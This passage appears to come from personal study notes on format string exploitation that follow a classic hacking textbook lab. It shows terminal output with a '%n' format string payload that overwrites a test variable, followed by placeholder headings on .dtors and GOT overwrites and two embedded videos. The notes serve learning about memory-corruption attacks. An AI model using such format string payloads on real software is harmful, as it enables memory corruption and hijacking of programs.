 ```bash
The right way to print user-controlled input:
????????%98x%4$n%139x%5$n%258x%6$n%192x%7$n
The wrong way to print user-controlled input:
????????
bffff3b0
b7fe75fc
0
8049794
[*] test_val @ 0x08049794 = -1073742478 0xbffffd72
reader@hacking:~/booksrc $
```

## Using Short Writes

>[!todo]

## Overwriting .dtors

>[!todo]

## Overwriting the Global Offset Table

>[!info]
> See also [Global Offset Table and Procedure Linkage Table](Reversing%20and%20software%20memory%20101.md#Global%20Offset%20Table%20and%20Procedure%20Linkage%20Table)

<iframe width="660" height="415" src="https://www.youtube.com/embed/t1LH9D5cuK4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

<iframe width="660" height="415" src="https://www.youtube.com/embed/MBz5C9Wa6KM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
